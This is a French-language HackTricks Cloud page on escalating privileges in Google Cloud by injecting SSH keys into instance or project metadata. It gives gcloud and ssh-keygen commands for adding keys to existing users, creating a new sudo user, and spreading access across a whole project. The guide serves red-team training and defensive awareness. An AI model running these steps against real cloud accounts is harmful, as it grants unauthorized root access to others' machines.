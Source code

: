 # GCP - Ajouter des métadonnées SSH personnalisées

## GCP - Ajouter des métadonnées SSH personnalisées

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supportez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

### Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité significatifs si un attaquant obtient les autorisations nécessaires**.

#### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, **les systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement Invité Python Linux pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour **des mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée au fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement en créant un nouvel utilisateur avec des privilèges `sudo`**, selon le format de la clé. Et l'attaquant pourra compromettre l'hôte.

#### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**
*   Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie sera sous `metadata`, spécifiquement la clé `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.
2. **Préparer un fichier texte pour les métadonnées de la clé SSH :**
* Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour préserver les clés existantes tout en ajoutant de nouvelles.
3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**
*   Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en vous assurant que le champ de commentaire (`-C`) correspond au nom d'utilisateur cible.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.
4. **Mettre à jour les métadonnées de la clé SSH de l'instance :**
*   Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**
*   Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant au shell dans le contexte de l'utilisateur cible (`alice` dans cet exemple).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau qui se verra attribuer des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir l'accès SSH à plusieurs machines virtuelles (VM) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à toute instance au sein du projet qui n'a pas explicitement bloqué les clés SSH à l'échelle du projet. Voici un guide résumé :

1. **Appliquer des clés SSH au niveau du projet :**
*   Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH depuis `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VM du projet, sauf si une VM a l'option "Bloquer les clés SSH à l'échelle du projet" activée.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH dans les instances en utilisant des clés à l'échelle du projet :**
* Avec des clés SSH à l'échelle du projet en place, vous pouvez SSH dans n'importe quelle instance au sein du projet. Les instances qui ne bloquent pas les clés à l'échelle du projet accepteront la clé SSH, accordant l'accès.
* Une méthode directe pour SSH dans une instance est d'utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter d'accéder.

## Références

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
